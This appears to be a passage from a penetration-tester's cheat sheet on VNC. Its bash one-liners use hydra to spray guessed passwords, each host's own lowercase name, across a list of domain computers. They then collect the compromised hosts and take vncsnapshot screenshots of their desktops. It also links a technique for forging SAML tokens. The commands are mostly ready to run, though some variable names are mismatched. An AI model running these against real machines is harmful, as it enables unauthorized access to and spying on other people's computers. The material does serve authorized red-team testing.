 - [forge SAML token](https://attack.mitre.org/techniques/T1606/002/)


## <a name='vnc'></a>vnc

* service-port   : 
* service-process: 
* artifacts      : 

### <a name='password-spraying'></a>password-spraying

**Case 1** : vnc_pwd == $ztarg_computer_name 
```bash
# // terminator || tmux / vsplit panel 1 / monitor progression
# // terminator || tmux / vsplit panel 1 / monitor progression / tail 
tail -f pt_XXX_hydra_vnc_output.txt

# // terminator || tmux / vsplit panel 0 / hsplit panel 0 / 
# // terminator || tmux / vsplit panel 0 / hsplit panel 0 / run / pwd spraying over vnc using hydra /
while read ztarg_computer_fqdn; do vnc_pwd=$(echo $ztarg_computer_name | cut -d"." -f1 | tr '[:upper:]' '[:lower:]'); hydra  -p $vnc_pwd vnc://$ztarget_computer_fqdn -w 2/0 -t 4 >> pt_XXX_hydra_vnc_output.txt; done < pt_XXX_getnetcomputers_OU_XXX_all.txt

# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / 
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / get success conns / 
grep -c successfully pt_XXX_hydra_vnc_output.txt
grep -c "^\[5900\]" pt_XXX_hydra_vnc_output.txt
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / 
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / check last $ztarg_computer_name displayed by 'vsplit panel 1 / tail' /
grep -n  $ztarg_computername pt_XXX_getnetcomputers_OU_XXX_all.txt.txt
```

### <a name='test-valid-accounts-hydra'></a>test-valid-accounts-hydra 
```bash
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / return / format output & list zpwned_computer_name
grep "^\[5900\]" pt_XXX_hydra_vnc_output.txt | cut -f3 -d " " > pt_XXX_hydra_vnc_pwned.txt
grep "^\[5900\]" -A 2 pt_XXX_hydra_vnc_output.txt | cut -f3 -d " " > pt_XXX_hydra_vnc_pwned.txt
```

### <a name='screenshots-4-pwned-desktop'></a>screenshots-4-pwned-desktop
```bash
while read ztarg_computer_fqdn; do export vnc_pwd=$(echo $ztarg_computer_fqdn | cut -d"." -f1 | tr '[:upper:]' '[:lower:]');   echo $vnc_pwd | vncpasswd -f > ./vnc_pwd.txt; echo -n $ztarg_computer_fqdn:; cat vnc_pwd.txt; vncsnapshot -passwd ./vnc_pwd.txt $ztarg_computer_fqdn pt_XXX_hydra_vnc_$ztarg_computer_fqdn.png >> pt_XXX_vncsnapshot_output.txt; done < pt_XXX_hydra_vnc_pwned.txt
```
